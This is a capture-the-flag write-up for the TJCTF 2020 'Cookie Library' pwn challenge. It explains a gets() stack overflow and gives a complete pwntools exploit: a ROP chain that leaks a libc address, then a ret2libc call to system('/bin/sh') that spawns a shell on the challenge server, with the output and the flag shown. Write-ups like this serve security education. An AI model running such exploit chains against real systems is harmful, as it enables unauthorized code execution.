

# TJCTF 2020

## Cookie Library

> 90
>
> My friend loves [cookies](cookie). In fact, she loves them so much her favorite cookie changes all the time. She said there's no reward for guessing her favorite cookie, but I still think she's hiding something.
> 
> `nc p1.tjctf.org 8010`
>
> Written by KyleForkBomb

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _rop_ _libc_


## Summary

Leak libc address and version, return to `main` for a second exploit, get a shell, get the flag.

> This is annoyingly similar to [stop](../stop/README.md), so _stop_ and read that.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations.  !GOT.  No shellcode.  But, we have ROPtions (no PIE).  Stack left wide open, too.

> Yes, annoyingly old jokes too.

    
### Decompile with Ghidra



With the name of the challenge _cookie_ and `srand` right there at the top I thought this was going to be a homebrew canary, or at least a conditional based on a predictable PRNG.  Given how this is pretty much the same as [stop](../stop/README.md), but for more points, it makes me wonder if someone messed up.

Anyway, line 22, our old friend `gets` will get the job done.  No loop, so again, return to main.

`local_58` is `0x58` bytes above the return address:

```
             undefined8        RAX:8              <RETURN>
             undefined4        Stack[-0xc]:4      local_c
             undefined1        Stack[-0x58]:1     local_58
```

Both attacks will write out `0x58` bytes to get to the return address.


## Exploit

### Attack Plan

1. Leak libc address and version and return to main
2. Get a shell, get the flag


### Leak libc address and version and return to main

```python
#!/usr/bin/python3

from pwn import *

#p = process('./cookie')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('p1.tjctf.org', 8010)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('./cookie')

context.clear(arch='amd64')
rop = ROP('cookie')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Which is the most tasty?\n')

payload  = b''
payload += 0x58 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])

p.sendline(payload)
p.recvline()
_ = p.recv(6)
```

Since there's no PIE we do not need to worry about leaking the base process address.  All we need is a `pop rdi` gadget and have `puts` emit its own address.

After sending `0x58` bytes to get to the return address, we just pop the address of `puts` from the GOT, then call `puts` to emit it, and then return to main for a second run.

With the `puts` address leaked (`_ = p.recv(6)`) we can search for the version using the [libc-database](https://github.com/niklasb/libc-database) `find` command with the last three nibbles of the `puts` address:

```
# libc-database/find puts 0x9c0 | grep -v 386
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```

Then rerun with:

```
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
```

to then leak the base address of libc:

```
puts = u64(_ + 2*b'\x00')
print('puts:',hex(puts))
baselibc = puts - libc.symbols['puts']
print('baselibc:',hex(baselibc))
```

> You'll know you got this right if the last three digits of the libc address is all zeros.  See output below.


### Get a shell, get the flag

```python
p.recvuntil('Which is the most tasty?\n')

payload  = b''
payload += 0x58 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)
p.interactive()
```

> The extra `ret` (`payload += p64(pop_rdi + 1)`) is required to align the stack, see [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a lengthly example and explanation.

For the second pass, align the stack, pop the address of the string `/bin/sh` from libc, and then _return_ to `system` to get a shell:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8010: Done
[*] '/pwd/datajerk/tjctf2020/cookie/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/tjctf2020/cookie/cookie'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'cookie'
puts: 0x7f6b52bfe9c0
baselibc: 0x7f6b52b7e000
[*] Switching to interactive mode
I'm sorry but we can't be friends anymore
$ cat flag.txt
tjctf{c00ki3_yum_yum_mmMmMMmMMmmMm}
```
